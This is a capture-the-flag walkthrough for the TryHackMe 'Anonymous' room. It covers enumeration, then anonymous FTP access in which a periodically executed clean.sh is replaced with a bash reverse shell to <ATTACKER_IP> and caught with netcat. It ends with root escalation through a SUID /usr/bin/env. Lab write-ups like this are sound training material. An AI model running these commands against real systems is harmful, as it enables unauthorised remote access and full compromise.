 # [Anonymous](https://tryhackme.com/room/anonymous)

## Not the hacking group

# Pwn

### Enumerate the machine. How many ports are open?

1. There are **4** open ports

```bash
nmap -sV -p- <TARGET_IP>
```

[SCREEN01]

### What service is running on port 21?

1. **ftp** is running on port 21

### What service is running on ports 139 and 445?

1. The service is **smb**

### There's a share on the user's computer. What's it called?

1. Enumerate SMB shares using smbclient
   - The folder is **pics**

```bash
smbclient -L //<TARGET_IP> -N
```

### user.txt

_What's that log file doing there?... nc won't work the way you'd expect it to_

1. Access the FTP server using anonymous login and examine available files:

```bash
ftp <TARGET_IP>
anonymous
ls -la
cd script
ls -la
mget *
```

2. Examine the downloaded files locally. The `clean.sh` script appears to be executed periodically. Create a reverse shell payload

```bash
echo '#!/bin/bash' > clean.sh
echo 'bash -i >& /dev/tcp/<ATTACKER_IP>/4444 0>&1' >> clean.sh
```

3. Upload the modified script back to the FTP server

```bash
put clean.sh
```

4. Set up a netcat listener and wait for the scheduled execution. Once the reverse shell is established, locate the user flag

```bash
nc -lvnp 4444
cat user.txt
```

[SCREEN03]

### root.txt

_This may require you to do some outside research_

1. Search for SUID binaries that can be exploited for privilege escalation

```bash
find / -perm -u=s -type f 2>/dev/null
```

2. The `/usr/bin/env` binary has SUID permissions set. This can be exploited to spawn a root shell

```bash
/usr/bin/env /bin/sh -p
```

3. Verify root access and retrieve the root flag

```bash
whoami
cat /root/root.txt
```

[SCREEN04]
